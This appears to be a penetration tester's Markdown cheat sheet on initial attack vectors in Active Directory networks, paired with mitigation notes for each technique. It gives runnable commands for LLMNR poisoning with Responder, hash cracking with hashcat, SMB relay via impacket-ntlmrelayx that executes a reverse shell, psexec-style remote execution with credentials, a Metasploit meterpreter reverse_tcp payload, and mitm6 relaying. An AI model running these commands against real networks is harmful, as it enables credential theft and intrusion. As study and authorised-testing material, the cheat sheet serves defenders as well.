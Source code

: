 #  Initial Attack Vectors

---

### Active Directory

https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa


### LLMNR Poisoning:
Link-Local Multicast Name Resolution

To begin the attack, we start an LLMNR/NBT-NS poisoner such as Responder. 
Responder can listen for the LLMNR/NBT-NS queries being broadcast on the local network and by default also sets up several different servers, most notably SMB. 
These will be used to receive authentication requests after the poisoning.

```
responder -I tun0 -v -rdw

hashcat -m 5600 hash.txt -a 3 /usr/share/wordlists/rockyou.txt 
```

#### LLMNR Poisoning Defense
1. disable LLMNR and NBT-NS (Netbios)
2. use Network access control - can't just access any port, checks MAC address
3. Strong password policy

### SMB Relay attacks

Instead of cracking the hash generated from responder we relay those 
hash to specific machine and potentially gain access.

* SMB signing must be disabled
* Relayed user credentials must be admin on machine (separate machine)

find smb signing disabled hosts:
```
nmap --script=smb2-security-mode.nse -p445 192.168.170.131/24 
```
Turn off SMB and HTTP:
```
nano /etc/responder/Responder.conf 
```
Run responder:
```
responder -I tun0 -rdwv
```
run ntlmrelayx.py and wait for connection:
``` 
impacket-ntlmrelayx -tf target.txt -smb2support

# for interactive smb shell
impacket-ntlmrelayx -tf target.txt -smb2support -i

# execute
impacket-ntlmrelayx -tf target.txt -smb2support -e revshell.exe

# command
impacket-ntlmrelayx -tf target.txt -smb2support -c "whoami"
```

Mitigation Strategies:
- Enable SMB Signing on all devices
  - Pro: Completely stops the attack
  - Con: Can cause performance issues with file
  copies
- Disable NTLM authentication on network
  - Pro: Completely stops the attack
  - Con: If Kerberos stops working, Windows
  defaults back to NTLM
- Account tiering:
  - Pro: Limits domain admins to specific tasks
  (e.g. only log onto servers with need for DA)
  - Con: Enforcing the policy may be difficult

- Local admin restriction:
  - Pro: Can prevent a lot of lateral movement
  - Con: Potential increase in the amount of
  service desk tickets


reverse shell with credentials psexec.py:
```
impacket-psexec domain.local/user:Password@192.186.35.177
impacket-smbexec domain.local/user:Password@192.186.35.177
impacket-wmiexec domain.local/user:Password@192.186.35.177
```

msfconsole for reverse shell with credentials psexec:
``` 
use exploit/windows/smb/psexec 
set payload windows/x64/meterpreter/reverse_tcp 
```

### mitm6

https://github.com/dirkjanm/mitm6

https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/

https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

```
mitm6 -d domain.local

impacket-ntlmrelayx -6 -t ldaps://192.168.13.177 -wh fackwpad.domain.local -l lootme 
```

### Mitigation Strategies:
1. IPv6 poisoning abuses the fact that Windows queries for
an IPv6 address even in IPv4-only environments. If you don't
use IPv6 internally, the safest way to prevent mitm6 is to block
DHCPv6 traffic and incoming router advertisements in
Windows Firewall via Group Policy. Disabling IPV6 entirely may
have unwanted side effects. Setting the following predefined
rules to Block instead of Allow prevents the attack from
working:

   - (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPV6(DHCPV6-In)
   - (Inbound) Core Networking - Router Advertisement (ICMPV6-In)
   - (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPV6(DHCPV6-Out)
2. If WPAD is not in use internally, disable it via Group Policy
and by disabling the WinHttpAutoProxySvc service.
3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.
4. Consider Administrative users to the Protected Users
group or marking them as Account is sensitive and cannot be
delegated, which will prevent any impersonation of that user
via delegation.

---

Multi-Function Peripherals

https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack

---

### Strategies:
- Begin day with mitm6 or Responder
- Run scans to generate traffic
- If scans are taking too long, look for
websites in scope (http_version)
- Look for default credentials on web logins
  - Printers
  - Jenkins
  - Etc
- Think outside the box



